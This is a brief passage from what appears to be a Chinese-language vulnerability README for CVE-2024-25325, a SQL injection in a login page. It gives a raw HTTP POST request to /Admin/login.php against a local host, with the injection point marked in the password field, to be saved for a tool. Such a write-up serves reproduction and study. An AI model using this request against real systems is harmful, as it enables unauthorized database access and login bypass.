 
![image-20240413122219414](./img/README/image-20240413122219414.png)

### CVE-2024-25325

> CVE-2024-25325 登陆处存在sql注入

将以下请求保存至`flag.txt`

```text
POST /Admin/login.php HTTP/1.1
Host: localhost:9001
Content-Length: 47
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: close

txtusername=admin&txtpassword=1*&btnlogin=
```

